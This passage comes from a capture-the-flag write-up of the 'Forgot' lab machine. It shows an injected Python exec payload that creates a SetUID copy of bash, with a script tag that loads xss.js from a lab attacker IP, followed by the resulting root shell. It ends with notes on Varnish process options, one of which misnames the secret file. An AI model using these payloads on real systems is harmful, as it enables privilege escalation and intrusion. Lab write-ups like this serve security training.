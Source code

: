     

I’ll fix that by putting it in two `system` calls, using `\n` to separate
lines:

    
    
    oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf")\nos.system("chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>
    

Running the script now works, and results in a SetUID `0xdf`:

    
    
    diego@forgot:~$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1183448 Feb 24 16:09 /tmp/0xdf
    

Running it gives a root shell and the flag:

    
    
    diego@forgot:~$ /tmp/0xdf -p
    0xdf-5.0# cat /root/root.txt
    be34423d************************
    

## Beyond Root

### Varnish Config

#### Identifying Process

I’m curious to see more about how Varnish works. As root, I’ll look for it in
the running processes:

    
    
    root@forgot:~# ps auxww | grep -i varnish
    vcache       834  0.0  0.1  18932  5524 ?        SLs  Feb22   0:25 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
    vcache       945  0.0  0.8 270152 34960 ?        SLl  Feb22   2:42 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
    varnish+    1165  1.0  0.5  86552 21992 ?        Ss   Feb22  37:38 /usr/bin/varnishncsa -a -w /var/log/varnish/varnishncsa.log -D -P /run/varnishncsa/varnishncsa.pid
    

There are two `varnishd` processes (likely to help with scale), called with
the following options (from running `varnishd -h`):

  * `j unix,user=vcache` \- Run with a UNIX jail for the user vcache. This is basically so that if the cache is exploited somehow, the resulting execution won’t lead to much.
  * `-F` \- Run in the foreground.
  * `-a :80` \- The address Varnish listens on.
  * `-T localhost:6082` \- The address of the varnish client management interface.
  * `-f /etc/varnish/default.vcl` \- The config file.
  * `-S /etc/varnish/default.vcl` \- This is the secret file that defines how a client authenticates to Varnish.
  * `-s malloc,256m` \- The storage specification. `malloc` is saying to keep the cached files in memory, up to 256 MB.
